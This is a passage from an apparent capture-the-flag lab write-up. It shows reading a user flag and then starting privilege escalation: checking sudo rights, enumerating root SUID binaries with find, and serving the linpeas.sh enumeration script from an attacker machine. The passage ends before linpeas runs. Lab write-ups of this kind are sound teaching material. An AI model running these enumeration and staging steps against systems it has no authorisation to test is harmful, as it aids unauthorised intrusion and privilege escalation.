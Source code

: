 Nice! Now read the **user.txt** file:
```
$ cat /home/lennie/user.txt
```

<details><summary><b>🏳️Flag: user.txt</b></summary></details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first:
```bash
$ sudo -l
Sorry, user lennie may not run sudo on startup.
```

Okay, try to check the **weird SUID permission**:
```
$ find / -user root -perm -4000 -exec ls -ldb {} \; > /tmp/ckprm

$ cat /tmp/ckprm
```

![img](ckprm.png)

Also nothing weird here... Hmmm, try to use **linpeas** maybe. In our attacker machine:
```
$ ls
linpeas.sh

$ python3 -m http.server 80
```

